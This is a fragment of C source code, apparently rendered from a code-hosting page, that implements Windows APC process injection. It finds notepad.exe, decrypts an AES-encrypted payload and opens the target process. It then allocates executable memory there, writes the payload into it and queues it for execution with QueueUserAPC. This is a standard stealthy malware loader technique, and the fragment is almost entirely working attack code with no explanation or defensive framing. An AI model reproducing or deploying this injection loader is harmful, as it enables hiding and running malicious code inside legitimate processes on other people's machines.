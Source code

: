 	// find a thread in target process
	hThread = FindThread(pid);
	if (hThread == NULL) {
		printf("Error, hijack unsuccessful.\n");
		return -1;
	}

	// Decrypt and inject payload
	AESDecrypt((char*)payload, payload_len, (char*)key, sizeof(key));

	// perform payload injection
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T*)NULL);

	// execute the payload by adding async procedure call (APC) object to thread's APC queue
	QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);

	return 0;
}


int main(void) {

	int pid = 0;
	HANDLE hProc = NULL;

	pid = FindTarget(L"notepad.exe");

	if (pid) {
		printf("Notepad.exe PID = %d\n", pid);

		// try to open target process
		hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
			PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
			FALSE, (DWORD)pid);

		if (hProc != NULL) {
			InjectAPC(pid, hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
}

</code></pre>
